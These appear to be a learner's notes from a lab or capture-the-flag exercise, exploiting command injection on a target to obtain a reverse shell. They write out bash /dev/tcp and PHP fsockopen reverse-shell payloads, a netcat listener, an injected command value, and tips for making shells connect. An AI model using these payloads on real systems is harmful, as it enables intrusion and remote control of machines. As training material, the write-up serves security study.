

Let's see if we can pop a shell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
Will try the Bash TCP:
Commnad :bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
but to know the bash path will run the command
which/bash

got the path for the bash
our IP address for now : 192.168.17.133
Commnad :/bin/bash -i >& /dev/tcp/10.0.0.1/4444 0>&1

WIll set up a listner:
nc -nlvp 4444
But it didn't work as we didn't got the shell as of now.
Some best practices for trying to get Shell to work when we have command injection is to try full paths to the binaries.
Also using ports like 4444 sometimes fails as well so try and stick to common ports like 80 or 8080 or 443
As always our 1st payload might not work so have to try few different ones.
The fact this refreshed straight away and gave us a resposne is an indication that we didn't unfortunately get anything back.
Will check which other things are running on the box (i.e. php,python in our case)
we don't have python installed
Command : ;which php; asd

Command For reverse Shell : php -r '$sock=fsockopen("192.168.17.133",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

The fact that it's hung is actually a really good sign that it's probably connected back to us.

We can see from the hostname that we are probably inside the docker.